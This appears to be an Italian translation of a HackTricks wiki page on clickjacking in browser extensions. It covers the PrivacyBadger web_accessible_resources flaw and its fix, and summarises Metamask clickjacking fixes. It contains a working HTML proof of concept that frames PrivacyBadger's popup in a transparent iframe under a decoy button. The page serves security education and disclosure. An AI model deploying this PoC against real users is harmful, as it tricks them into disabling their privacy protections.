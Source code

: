 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

Questa pagina sfrutterà una vulnerabilità di ClickJacking in un'estensione del Browser.\
Se non sai cos'è il ClickJacking, controlla:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Le estensioni contengono il file **`manifest.json`** e quel file JSON ha un campo `web_accessible_resources`. Ecco cosa dicono [le documentazioni di Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources):

> Queste risorse sarebbero quindi disponibili in una pagina web tramite l'URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, che può essere generato con il **`extension.getURL method`**. Le risorse autorizzate sono servite con intestazioni CORS appropriate, quindi sono disponibili tramite meccanismi come XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Le **`web_accessible_resources`** in un'estensione del browser non sono solo accessibili tramite il web; operano anche con i privilegi intrinseci dell'estensione. Questo significa che hanno la capacità di:

* Cambiare lo stato dell'estensione
* Caricare risorse aggiuntive
* Interagire con il browser in una certa misura

Tuttavia, questa funzionalità presenta un rischio per la sicurezza. Se una risorsa all'interno di **`web_accessible_resources`** ha una funzionalità significativa, un attaccante potrebbe potenzialmente incorporare questa risorsa in una pagina web esterna. Gli utenti ignari che visitano questa pagina potrebbero attivare involontariamente questa risorsa incorporata. Tale attivazione potrebbe portare a conseguenze indesiderate, a seconda dei permessi e delle capacità delle risorse dell'estensione.

## Esempio di PrivacyBadger

Nell'estensione PrivacyBadger, è stata identificata una vulnerabilità relativa alla directory `skin/` dichiarata come `web_accessible_resources` nel seguente modo (Controlla il [post originale del blog](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Questa configurazione ha portato a un potenziale problema di sicurezza. In particolare, il file `skin/popup.html`, che viene visualizzato al momento dell'interazione con l'icona di PrivacyBadger nel browser, potrebbe essere incorporato all'interno di un `iframe`. Questo embedding potrebbe essere sfruttato per ingannare gli utenti a cliccare involontariamente su "Disabilita PrivacyBadger per questo sito web". Tale azione comprometterebbe la privacy dell'utente disabilitando la protezione di PrivacyBadger e potenzialmente esponendo l'utente a un tracciamento aumentato. Una dimostrazione visiva di questo exploit può essere vista in un esempio video di ClickJacking fornito su [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Per affrontare questa vulnerabilità, è stata implementata una soluzione semplice: la rimozione di `/skin/*` dall'elenco delle `web_accessible_resources`. Questa modifica ha effettivamente mitigato il rischio assicurando che il contenuto della directory `skin/` non potesse essere accessibile o manipolato tramite risorse web-accessibili.

La soluzione è stata semplice: **rimuovere `/skin/*` dalle `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Esempio Metamask

Un [**post del blog su un ClickJacking in metamask può essere trovato qui**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In questo caso, Metamask ha risolto la vulnerabilità controllando che il protocollo utilizzato per accedervi fosse **`https:`** o **`http:`** (non **`chrome:`** per esempio):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Un altro ClickJacking risolto** nell'estensione Metamask era che gli utenti potevano **Cliccare per aggiungere alla whitelist** quando una pagina era sospetta di phishing a causa di `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Poiché quella pagina era vulnerabile al Clickjacking, un attaccante poteva abusarne mostrando qualcosa di normale per far cliccare la vittima per aggiungerla alla whitelist senza accorgersene, e poi tornare alla pagina di phishing che sarà aggiunta alla whitelist.

## Esempio Steam Inventory Helper

Controlla la seguente pagina per vedere come un **XSS** in un'estensione del browser è stato concatenato con una vulnerabilità di **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Riferimenti

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
